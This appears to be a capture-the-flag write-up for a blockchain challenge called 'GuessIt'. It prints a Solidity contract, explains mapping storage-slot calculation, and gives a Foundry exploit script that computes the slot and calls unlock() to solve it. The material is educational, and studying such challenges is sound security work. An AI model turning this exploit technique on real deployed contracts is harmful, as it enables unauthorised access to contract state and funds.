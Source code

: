 +++
date = '2024-12-30T08:39:43+05:30'
draft = false
title = 'Guess It'
categories=["Blockchain"]
series=["War-Games-CTF"]
tags=["Storage Layout"]
+++

# Writeup for GuessIt

- Before diving into this writeup, it’s crucial to have a solid understanding of Foundry, a powerful framework for Ethereum smart contract development. Foundry will be your primary tool for writing, testing, and breaking contracts in this guide.

### Challenge Description

Santa Clause has been kidnapped and is kept in a secret dungeon, can u unlock this contract and save him?

**Author:** MaanVad3r

### The Challenge and Exploit

The below are source contracts

1. **GuessIt** contract

```solidity
pragma solidity ^0.8.20;

contract EasyChallenge {
    uint constant isKey = 0x1337;

    bool public isKeyFound;
    mapping (uint => bytes32) keys; 

    constructor() {
        keys[isKey] = keccak256(
            abi.encodePacked(block.number, msg.sender) 
        );
    }

    function unlock(uint slot) external {
        bytes32 key;
        assembly {
            key := sload(slot)
        }
        require(key == keys[isKey]);
        isKeyFound = true;
    }
}
```

2. **Setup** contract

```solidity
pragma solidity ^0.8.20;

import "./GuessIt.sol";

contract Setup {
    EasyChallenge public challengeInstane;

    constructor() {
        challengeInstane = new EasyChallenge();
    }

    function isSolved() public view returns (bool) {
        return challengeInstane.isKeyFound(); 
    }
}
```

Our task is to make the `Setup:isSolved` function return true. This function will return true if the `GuessIt:isKeyFound` function returns true. Therefore, to solve this challenge, we need to make `GuessIt:isKeyFound `return true.

```solidity
function unlock(uint slot) external {
    bytes32 key;
    assembly {
        key := sload(slot)
    }
    require(key == keys[isKey]);
    isKeyFound = true;
}
```

`isKeyFound` is set to `true` only in this function. To call this function, we need to pass the storage slot address as a parameter. The function will load the content from the given slot and compare it with the value stored in the `keys` mapping for the key `isKey` (which is `0x1337`).

Technically, we need to pass the storage slot where the `keys` mapping holds the value for the key `0x1337`. If the content in that slot matches, the `isKeyFound` variable will be set to true.

The storage slot of any mapping can be calculated using the formula `keccak256(key, slot)`, where `key` is the key you are looking for in the mapping, and `slot` is the position of the mapping variable itself in the contract’s storage layout. The resulting hash points to the specific storage slot for the given key within the mapping.

In the `GuessIt` contract, `isKey` is a constant variable, which means it’s not stored in the contract's storage. Instead, its value (in this case, `0x1337`) is embedded directly in the contract’s bytecode. The `isKeyFound` variable is stored in storage slot 0, while the `keys` mapping starts at storage slot 1. To find the specific value in the keys mapping for the key `0x1337`, we calculate the storage slot using `keccak256(0x1337, 1)`.

The below is the Exploit script.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "lib/forge-std/src/Script.sol";

interface IEasyChallenge{
    function unlock(uint slot) external;
    function isKey()external view returns(uint256);
}

interface ISetup{
    function challengeInstane() external view returns(IEasyChallenge);
    
}
contract ExploitGuess is Script{
    ISetup setup;
    uint constant isKey = 0x1337;
    uint baseSlot = 1;
    function run()public{
        address _setup=address(/* YOUR_SETUP_ADDRESS */);
        vm.startBroadcast();
        setup=ISetup(_setup);
        IEasyChallenge challenge=setup.challengeInstane();
        uint256 slot=uint256(keccak256(abi.encodePacked(isKey, baseSlot)));
        challenge.unlock(slot);
        vm.stopBroadcast();
    }
}
```


<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>